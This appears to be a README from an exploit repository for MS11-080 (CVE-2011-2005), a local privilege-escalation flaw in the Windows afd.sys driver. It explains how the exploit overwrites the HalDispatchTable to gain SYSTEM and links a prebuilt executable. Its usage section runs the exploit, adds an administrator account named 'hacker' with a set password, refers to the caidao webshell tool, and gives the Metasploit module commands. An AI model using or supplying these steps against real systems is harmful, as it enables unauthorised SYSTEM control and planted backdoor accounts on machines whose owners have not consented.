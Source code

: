 # MS11-080 
```
This module exploits a flaw in the AfdJoinLeaf function of the afd.
sys driver to overwrite data in kernel space. 
An address within the HalDispatchTable is overwritten 
and when triggered with a call to NtQueryIntervalProfile will execute shellcode. 
This module will elevate itself to SYSTEM, then inject the payload into another 
SYSTEM process before restoring it's own token to avoid causing system instability.
```
- The exp was from [@BHaFSec](www.bhafsec.com/files/windows/ms11-080.exe)

Vulnerability reference:
 * [MS11-080](https://technet.microsoft.com/library/security/ms11-080)
 * [CVE-2011-2005](https://www.exploit-db.com/exploits/18176/)

## Usage
```
+ c:\\> ms11-080.exe -O 2k3 
+ c:\\> ms11-080-AddUser.exe -O 2k3
+ [*] Adding Admin User:hacker Pass:Hacked!...
```
caidao add user  
![win2003_k8team](2003_k8.png)
local  
![win2003](win2003.png)  
win7  
![win7](win7.jpg)  

##  load the module within the msf
- [msf](https://www.rapid7.com/db/modules/exploit/windows/local/ms11_080_afdjoinleaf)
```
msf > use exploit/windows/local/ms11_080_afdjoinleaf
msf exploit(ms11_080_afdjoinleaf) > show targets
    ...targets...
msf exploit(ms11_080_afdjoinleaf) > set TARGET <target-id>
msf exploit(ms11_080_afdjoinleaf) > show options
    ...show and set options...
msf exploit(ms11_080_afdjoinleaf) > exploit
```
